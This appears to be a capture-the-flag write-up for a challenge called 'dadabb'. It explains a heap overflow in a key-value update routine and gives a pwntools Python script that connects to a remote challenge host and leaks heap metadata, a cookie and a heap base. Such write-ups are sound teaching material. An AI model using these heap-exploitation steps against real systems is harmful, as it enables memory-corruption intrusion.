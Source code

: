 ### dadabb

When updating the value of the key, it's based on the original length, so there is heap overflow here. First we can leak data by overwriting the buffer pointer of the value. Then we can fake the heap chunk in front of the `FILE` structure pointer, and finally write arbitrary address by overwriting this pointer to our fake `FILE` structure.

```python
from pwn import *

io = remote('13.230.51.176', 4869)

def login(username, password):
    io.recvuntil('>> ')
    io.sendline('1')
    io.recvuntil('User:')
    io.sendline(username)
    io.recvuntil('Password:')
    io.sendline(password)

def update(key, size, value):
    io.recvuntil('>> ')
    io.sendline('1')
    io.recvuntil('Key:')
    io.sendline(key)
    io.recvuntil('Size:')
    io.sendline(str(size))
    io.recvuntil('Data:')
    io.send(value)

def show(key):
    io.recvuntil('>> ')
    io.sendline('2')
    io.recvuntil('Key:')
    io.sendline(key)

def delete(key):
    io.recvuntil('>> ')
    io.sendline('3')
    io.recvuntil('Key:')
    io.sendline(key)

def leak(addr):
    update('1', 0x10, 'A' * 0x18 + p64(header) + p64(addr))
    show('2')
    io.recvuntil('Data:')
    return u64(io.recvn(8))

def logout():
    io.recvuntil('>> ')
    io.sendline('4')

login('orange', 'godlike')
update('1', 0x200, '11')
update('1', 0x10, '11')
update('2', 0x10, '22')
show('1')
io.recvuntil('Data:')
io.recvn(0x18)
header = u64(io.recvn(8))
cookie = (header & 0xffffffffffff) ^ 0x306010007
heap = u64(io.recvn(8)) & (~0xffff)
print hex(header)
print hex(heap)
```